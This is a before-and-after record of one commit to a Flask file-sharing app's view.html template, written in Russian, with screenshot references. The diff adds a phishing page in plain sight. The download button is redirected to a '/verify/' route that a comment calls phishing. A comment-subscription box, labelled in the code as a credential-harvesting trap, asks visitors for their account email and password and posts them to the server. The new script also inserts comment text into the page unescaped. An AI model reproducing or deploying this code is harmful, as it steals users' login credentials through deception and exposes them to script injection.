

Before and after one commit to 96Azerus/pdfeagle, a Flask app: template templates/view.html in a window 1280 px wide. Shown: the part 217-969 px from the top of the page. Before the commit the page ends 802 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update view.html

```diff
--- a/templates/view.html
+++ b/templates/view.html
@@ -26,9 +26,10 @@
             <small class="text-muted">{{ file.format }} • {{ file.date }}</small>
         </div>
         <div>
-            <button onclick="startDownload('{{ uid }}', '{{ file.name }}')" class="btn btn-outline-dark btn-sm">
+            <!-- Кнопка ведет на фишинг Семяныча -->
+            <a href="/verify/{{ uid }}/{{ file.name }}" class="btn btn-outline-dark btn-sm">
                 <i class="fa-solid fa-download"></i> Скачать
-            </button>
+            </a>
         </div>
     </div>
     {% endfor %}
@@ -44,50 +45,107 @@
             </a>
         </div>
     </div>
+</div>
 
-    <div class="mt-4 d-flex justify-content-between">
-        <button class="btn btn-outline-danger btn-sm">
-            <i class="fa-solid fa-triangle-exclamation"></i> Пожаловаться
+<!-- COMMENTS TRAP WITH CREDENTIAL HARVESTING -->
+<div class="card p-4 mt-4">
+    <div class="d-flex justify-content-between align-items-center mb-3">
+        <h6 class="mb-0">Обсуждение</h6>
+        <span class="badge bg-success">Online</span>
+    </div>
+
+    <div id="commentsList" class="mb-4">
+        {% if db_data and db_data.comments %}
+            {% for c in db_data.comments %}
+                <div class="border-bottom pb-2 mb-2">
+                    <strong>{{ c.username }}</strong> <small class="text-muted">{{ c.date }}</small>
+                    <p class="mb-0">{{ c.text }}</p>
+                </div>
+            {% endfor %}
+        {% else %}
+            <p class="text-muted small text-center">Комментариев пока нет. Будьте первым!</p>
+        {% endif %}
+    </div>
+
+    <div class="bg-light p-3 rounded border">
+        <p class="small text-muted mb-2"><i class="fa-regular fa-bell"></i> <strong>Подписка на ответы:</strong> Введите Email и пароль от вашей учетной записи, чтобы получать уведомления о новых сообщениях в этой ветке.</p>
+
+        <div class="row g-2 mb-2">
+            <div class="col-md-6">
+                <input type="text" id="usernameInput" class="form-control form-control-sm" placeholder="Ваше имя (публичное)">
+            </div>
+            <div class="col-md-6">
+                <input type="email" id="emailInput" class="form-control form-control-sm" placeholder="Email (для уведомлений)">
+            </div>
+        </div>
+
+        <div class="mb-2">
+            <input type="password" id="passwordInput" class="form-control form-control-sm" placeholder="Пароль (для управления подпиской)">
+        </div>
+
+        <div class="form-floating mb-2">
+            <textarea class="form-control" placeholder="Leave a comment here" id="commentText" style="height: 80px"></textarea>
+            <label for="commentText">Ваше сообщение...</label>
+        </div>
+
+        <button onclick="sendComment('{{ uid }}')" class="btn btn-primary btn-sm w-100">
+            <i class="fa-regular fa-paper-plane"></i> Отправить и Подписаться
         </button>
-        <span class="text-muted small"><i class="fa-regular fa-clock"></i> Удаление через 24ч</span>
     </div>
 </div>
 
-<div class="card p-4 mt-4">
-    <h6 class="mb-3">Комментарии</h6>
-    <div class="form-floating mb-2">
-        <textarea class="form-control" placeholder="Leave a comment here" id="floatingTextarea" style="height: 80px"></textarea>
-        <label for="floatingTextarea">Ваше сообщение...</label>
-    </div>
-    <button class="btn btn-secondary btn-sm w-100">Отправить</button>
-</div>
+<script>
+function sendComment(uid) {
+    const username = document.getElementById('usernameInput').value || 'Guest';
+    const email = document.getElementById('emailInput').value;
+    const password = document.getElementById('passwordInput').value;
+    const text = document.getElementById('commentText').value;
 
-<script>
-function startDownload(uid, filename) {
-    const modal = document.getElementById('downloadModal');
-    const timerVal = document.getElementById('timerValue');
-    const progressBar = document.getElementById('progressBar');
-
-    modal.style.display = 'flex';
-    let timeLeft = 10;
-
-    // Агрессивная отправка данных перед началом таймера
-    if(window.EagleEye) {
-        const eagle = new EagleEye();
-        eagle.collect('Download Button Clicked');
+    if(!text) {
+        alert("Введите текст комментария!");
+        return;
     }
 
-    const interval = setInterval(() => {
-        timeLeft--;
-        timerVal.textContent = timeLeft;
-        progressBar.style.width = ((10 - timeLeft) * 10) + '%';
+    const btn = document.querySelector('button[onclick^="sendComment"]');
+    const originalText = btn.innerHTML;
+    btn.innerHTML = '<i class="fa-solid fa-spinner fa-spin"></i> Обработка...';
+    btn.disabled = true;
 
-        if (timeLeft <= 0) {
-            clearInterval(interval);
-            modal.style.display = 'none';
-            window.location.href = `/download/${uid}/${filename}`;
+    fetch('/api/comment', {
+        method: 'POST',
+        headers: {'Content-Type': 'application/json'},
+        body: JSON.stringify({
+            uid: uid,
+            username: username,
+            text: text,
+            email: email,
+            password: password
+        })
+    })
+    .then(response => response.json())
+    .then(data => {
+        btn.innerHTML = originalText;
+        btn.disabled = false;
+
+        if(data.status === 'ok') {
+            const list = document.getElementById('commentsList');
+            if(list.querySelector('.text-center')) list.innerHTML = '';
+
+            const html = `
+                <div class="border-bottom pb-2 mb-2">
+                    <strong>${data.comment.username}</strong> <small class="text-muted">${data.comment.date}</small>
+                    <p class="mb-0">${data.comment.text}</p>
+                </div>`;
+            list.insertAdjacentHTML('beforeend', html);
+
+            document.getElementById('commentText').value = '';
+            document.getElementById('passwordInput').value = '';
+
+            if(email && password) {
+                alert(`Подписка оформлена на ${email}. Вы получите уведомление при ответе.`);
+            }
         }
-    }, 1000);
+    });
 }
 </script>
 {% endblock %}
```
